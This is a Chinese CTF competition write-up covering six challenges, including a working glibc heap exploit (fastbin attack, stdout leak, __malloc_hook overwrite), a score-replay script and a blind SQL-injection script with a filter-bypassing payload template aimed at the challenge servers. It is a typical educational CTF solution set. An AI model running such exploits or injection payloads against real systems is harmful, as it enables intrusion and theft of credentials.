



# “数字经济”云安全共测大赛
“侯表哥救救我们

## findme

题目脚本意思：两百次内猜中一个 0-2^(16\*8)的数，然后猜测有一定的限制。

仔细分析限制条件，每次猜测给出一个范围和两个数，这两个数的差不能超过范围的三分之一。然后没猜中会返回一个奇怪的式子的结果。

当 g1g2 在 sky 和 ground 之间时，这个式子代表了 secret 是否在 g1g2 之间，所以猜测时可以将 g1g2 紧贴范围的顶点，进行类似二分的搜索。

因为分割只能进行 1:2 的分割，比起 1:1 的均分在极端情况下查找的次数会多得多，（二分正好 128 次左右）所以尝试几次之后猜对 secret 得到 flag。

拿出没做出 pwn 的 pwntools 写脚本求得：

```python
#!/usr/bin/python2
from pwn import *

context(os='linux', arch='amd64', log_level='info') #debug
address = {'address': '121.40.216.20', 'port':9999 }

p = remote(address['address'], address['port'])
##################################################################

def gess(l,r,m,k=0):
    p.sendlineafter("g",hex(l)[2:])
    p.sendlineafter("s",hex(r)[2:])
    if k==0:
        p.sendlineafter("g1",hex(l)[2:])
        p.sendlineafter("g2",hex(l+m)[2:])
    elif k==1:
        p.sendlineafter("g1",hex(r-m)[2:])
        p.sendlineafter("g2",hex(r)[2:])
    p.recvline()

def main():
    l = 0
    r = pow(2,128)
    for i in range(199):
        m = (r-l)//3
        gess(l,r,m)
        s = p.recvline()
        if s[0]=="1":
            r=l+m
        elif s[0] =="2":
            l=l+m
        else: print '-->'+s
    p.interactive()


if __name__ == '__main__':
    main()

```

## ewn

下载后发现有一堆 small 和 big 结尾的图片文件，猜测是个二维码，于是先尝试把 big 结尾的拖进 photoshop 像小时候玩拼图一样拼好扫出来就是 flag。



## 签到

C-C C-V

## fkroman

漏洞点在 edit 函数未检查申请堆块大小造成堆溢出。

利用思路如下：

1. 通过修改块 size>0x60 使之符合 unsortedbin 大小，在修改之前先将此块放入 fastbin 中，这样我们就在块内获得了一个 libc 地址

2. 修改`_IO_2_1_stdout_`结构体中的 flag 域，通过 fastbin attack 覆写 stdout 泄露 libc 地址，

3. 向`__malloc_hook`写入 one_gadget

脚本如下：

```python
# -*- coding: utf-8 -*-
#!/usr/bin/env python2
from pwn import *

p = remote('121.40.246.48',9999)
libc = ELF('libc-2.23.so')

def alloc(index,size):
    p.recvuntil("choice:")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":")
    p.sendline(str(size))

def edit(index,size,content):
    p.recvuntil("choice:")
    p.sendline("4")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.send(content)

def free(index):
    p.recvuntil("choice:")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(index))

def main():

    alloc(0,0x20)
    alloc(1,0x20)
    alloc(2,0x10)
    edit(2,0x10,p64(0)+p64(0x31))
    alloc(3,0x60)
    alloc(4,0x10)
    alloc(5,0x10)

    free(3)
    free(0)
    free(1)
    edit(0,0x31,'a'*0x28+p64(0x31)+p8(0x70))
    alloc(6,0x20)
    alloc(7,0x20)
    edit(7,0x10,p64(0)+p64(0x91))
    free(3)

    edit(7,0x10,p64(0)+p64(0x71))
    edit(3,0x2,p16(0x55dd))
    alloc(1,0x60)
    alloc(2,0x60)
    payload='a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00'
    edit(2,len(payload),payload)
    leak=p.recvuntil('Done')
    leak_addr=u64(leak[0x41:0x49].ljust(8,'\x00'))
    base=leak_addr+0x20-libc.symbols['_IO_2_1_stdout_']

    alloc(6,0x60)
    alloc(7,0x60)
    alloc(8,0x60)
    free(6)
    free(7)
    edit(6,0x8,p64(base+0x3c4aed))
    alloc(8,0x60)
    alloc(8,0x60)
    alloc(9,0x60)
    payload = 'a'*0x13 + p64(0xf1147+base)
    edit(9,len(payload),payload)
    alloc(0,0x60)
    p.interactive()

if __name__ == '__main__':
    while(True):
        try:
            main()
            break
        except:
            p.close()
            continue

```

## gameapp

首先下载附件看到是一个.app.1 包，删除后缀，在夜神模拟器进行安装

打开游戏看到需要输入服务器 ip 以及端口，尝试了一下题目的地址，由于游戏名不知道，直接默认，点击后成功进入游戏

飞机根本操作不了，重玩了好几把才终于击落了两个飞机，使用 burp 配置代理抓取数据包

丢到 reapeter 中发现，回来的数据包一直数字不变，不过可以看到有不同的 set-cookies 返回

经过积分 1，积分 2 数据包反复重放对比，终于找到规律，将数据包请求之后的返回包中 set-cookies 设置的值替换过来即可进入下一个积分

所以直接编写脚本如下：

```python
import requests

header = {
    'Content-type': 'xxx',
    'User-Agent': 'Dalvik/2.1.0 (Linux; U; Android 5.1.1; HUAWEI MLA-AL10 Build/HUAWEIMLA-AL10)',
    'Host': '121.40.219.183:9999',
    'Connection': 'close',
    'Accept-Encoding': 'gzip, deflate',
    'Cookie': 'session=eyJwbGF5ZXIiOiJQbGF5ZXJOYW1lIiwic2NvcmUiOjN9.XYRDIg.IxzGYzPZL0GGiTmPWeaHRWi9Bo8',
    'Content-Length': '175'
}

if __name__ == "__main__":
    postdata = '''
    kHqOwFut23Wuwj9cj+W3xhpOwF1aktFQPzl4uctY0/LKZjtcmfKc+HAAzY7y2aeRAYR1xw0zKAU6
    tdvPEpJPTXX5yEOU9nhQfcZkevMXWrV6MZPo2OuERrgS9GwIMsOAqW3VWPfwljkxvW6IbysROrGf
    Fb8QYfWKoY/Q/7YDE2o=
    '''
    for i in range(99999):
        data = requests.post(url="http://121.40.219.183:9999/score/",data=postdata,headers=header)
        newcookie = data.headers["Set-Cookie"]
        header["Cookie"] = newcookie
        if i < 100:
            print(data.text)
        if i % 1000 == 0:
            print(data.text)
        if "{" in data.text:
            print(data.text)
```
达到99999即可得到flag

## Inject4Fun

可以通过查看 js 发现，前端随机生成 aes 秘钥，对数据包进行加密，然后再是用 rsa 公钥加密 aes 秘钥传输。知道算法后，可以直接写个 burpsuite 插件来，自动加密。

为了简化代码，这里直接固定 key 的值，code 的值也就是 rsa 加密的结果也固定。



插件效果如下



通过手工测试发现，select、and、or之类的被过滤，于是尝试直接注入获得password字段Payload为`admin'^(1<ord(substr(password,1,1)))='0`

然后根据这个写个脚本自动注入，这里是将请求发送到burpsuite，burpsuite会自动加密，然后再发送到服务端。Python代码为


```python
# -*- coding: utf-8 -*-

import requests

headers = {'User-Agent': 'Mozilla/5.0 (Linux; Android 4.4.2; SM-G955N Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36 MMWEBID/4009 MicroMessenger/7.0.3.1400(0x2700033B) Process/tools NetType/WIFI Language/zh_CN'
           }

URL = "http://129.204.73.141:2000/login.php"
def sendsort(payload):
    while 1:
        try:
            params = {"username": payload,"password":"aaa", "code": "130a0f7568d93a7b1b7f304466a0c0e8a6abd167d45eab324fd042129ba499cf3347c69ac91da53a0205763930e10dd357835715d29bdfbe5c9ad01724244485f73dc935d5136ddd72ee9766f4351b367af89fccad72a456ced52553aedbaf56c2b7deee0506e96ed5e7f70ebdb2b69cacbb7725b2760fbee764d1c942bd3624"}
            req = requests.post(URL,data=params,headers=headers,proxies={"http":"127.0.0.1:8080"})
        except:
           print('error')
        else:
           break

    if "password"   in req.text:
        return 1
    else:
        return 0

TEMPLATE = "admin'^(%s<ord(substr(password,%s,1)))='0"

data=''
for i in range(1,60):
    min_value= 31
    max_value= 128
    while abs(max_value-min_value)>1:
        mid_value = int((max_value+min_value)/2)
        if sendsort(TEMPLATE%(str(mid_value),str(i))) == 1:
            min_value= mid_value
        else:
            max_value= mid_value
    data+=(chr(max_value))
    print(data)
```

获得 password 的 md5 值为 6f1568e3698c06b9eb17b0e8e77444，
对应的明文为 admin123password321
登录之后获得 flag
